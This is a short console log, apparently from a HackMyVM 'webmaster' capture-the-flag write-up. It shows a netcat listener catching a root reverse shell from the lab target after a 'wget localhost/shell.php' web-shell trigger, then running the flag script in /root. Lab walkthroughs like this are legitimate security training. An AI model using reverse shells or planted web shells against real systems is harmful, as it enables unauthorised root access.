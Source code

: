```console


┌──(coolatos㉿CooLaToS)-[~/HMV/webmaster]
└─$ nc -nlvp 8888
listening on [any] 8888 ...
connect to [10.1.1.11] from (UNKNOWN) [10.1.1.25] 56642
Linux webmaster 4.19.0-12-amd64 #1 SMP Debian 4.19.152-1 (2020-10-18) x86_64 GNU/Linux
 07:43:54 up  1:16,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
john     pts/0    10.1.1.11        07:34    0.00s  0.04s  0.00s wget localhost/shell.php
uid=0(root) gid=0(root) groups=0(root)
bash: cannot set terminal process group (361): Inappropriate ioctl for device
bash: no job control in this shell
root@webmaster:/# cd
cd
root@webmaster:~# pwd
/root
pwd
root@webmaster:~# ls
ls
flag.sh
root.txt
root@webmaster:~# ./flag.sh
./flag.sh
```
